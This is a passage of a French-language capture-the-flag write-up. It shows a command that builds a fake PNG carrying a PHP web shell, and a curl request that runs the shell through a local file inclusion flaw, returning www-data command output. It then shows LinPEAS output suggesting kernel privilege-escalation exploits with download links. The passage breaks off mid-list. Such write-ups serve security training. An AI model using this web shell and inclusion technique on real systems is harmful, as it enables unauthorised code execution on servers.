 Comme sur le CTF *billy b0x* je vais uploader une image contenant du code PHP puis je l'inclurais via la LFI.

```bash
echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00<?php system($_GET["cmd"]); ?>' > shell.png
```

Mon shell récupère son paramètre via GET :

```console
$ curl -X POST "http://192.168.56.200:8011/api/files_api.php?cmd=id" --data "file=/var/www/development/uploader/FRANKuploads/shell.png" -o-

<head>
  <title>franks website | simple website browser API</title>
</head>

�PNG
▒
IHDRuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Le répertoire courant est `/var/anotherwww/api` et non `/var/www/development/uploader/`.

## Kernelz

La première chose qui saute aux yeux en fouillant dans le système, c'est que l'auteur du CTF a dû faire un `chown -R frank:frank /var`.

Pour autant je ne vois pas en quoi ça peut être exploitable.

`LinPEAS` remonte quelques exploits kernel pour le système :

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2012-0056,CVE-2010-3849,CVE-2010-3850] full-nelson

   Details: http://vulnfactory.org/exploits/full-nelson.c
   Exposure: highly probable
   Tags: [ ubuntu=(9.10|10.10){kernel:2.6.(31|35)-(14|19)-(server|generic)} ],ubuntu=10.04{kernel:2.6.32-(21|24)-server}
   Download URL: http://vulnfactory.org/exploits/full-nelson.c

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [N/A] caps_to_root 2
```